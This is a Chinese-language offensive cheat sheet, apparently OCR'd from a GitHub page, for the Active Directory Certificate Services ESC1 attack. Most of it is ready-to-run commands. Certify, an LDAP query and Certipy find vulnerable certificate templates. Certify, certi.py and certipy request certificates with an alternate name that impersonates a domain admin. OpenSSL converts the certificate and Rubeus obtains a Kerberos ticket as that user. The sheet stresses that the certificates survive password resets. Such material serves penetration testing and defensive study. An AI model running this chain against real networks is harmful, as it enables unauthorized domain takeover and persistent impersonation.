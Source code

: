 	域用户可以注册VulnTemplate模板，该模板可用于客户端身份验证并设置了ENROLLEE_SUPPLIES_SUBJECT。这允许任何人注册此模板并指定任意主题备用名称（即作为 DA）。允许将其他身份绑定到主题之外的证书。
	要求：
	允许 AD 身份验证的模板
	ENROLLEE_SUPPLIES_SUBJECT标志
	[PKINIT] 客户端身份验证、智能卡登录、任何目的或无 EKU（扩展/增强密钥使用）
	使用Certify.exe查看是否有任何易受攻击的模板
	>Certify.exe find /vulnerable
	>Certify.exe find /vulnerable /currentuser
	或者
	PS> Get-ADObject -LDAPFilter '(&(objectclass=pkicertificatetemplate)(!(mspki-enrollment-flag:1.2.840.113556.1.4.804:=2))(|(mspki-ra-signature=0)(!(mspki-ra-signature=*)))(|(pkiextendedkeyusage=1.3.6.1.4.1.311.20.2.2)(pkiextendedkeyusage=1.3.6.1.5.5.7.3.2) (pkiextendedkeyusage=1.3.6.1.5.2.3.4))(mspki-certificate-name-flag:1.2.840.113556.1.4.804:=1))' -SearchBase 'CN=Configuration,DC=lab,DC=local'
	或者
	>certipy 'domain.local'/'user':'password'@'domaincontroller' find -bloodhound
	用 Certify、Certi或Certipy请求证书并添加替代名称（用户模拟）
	通过在已提升的命令提示符下使用“/machine”参数执行 Certify 来请求机器帐户的证书。	>Certify.exe request /ca:dc.domain.local\domain-DC-CA /template:VulnTemplate /altname:domadmin
	>certi.py req 'contoso.local/Anakin@dc01.contoso.local' contoso-DC01-CA -k -n --alt-name han --template UserSAN
	>certipy req 'corp.local/john:Passw0rd!@ca.corp.local' -ca 'corp-CA' -template 'ESC1' -alt 'administrator@corp.local'
	使用 OpenSSL 并转换证书，不要输入密码
	>openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
	将 cert.pfx 移动到目标机器文件系统并使用 Rubeus 为 altname 用户请求 TGT
	>Rubeus.exe asktgt /user:domadmin /certificate:C:\Temp\cert.pfx
	即使用户或计算机重置密码，这些证书仍然可用！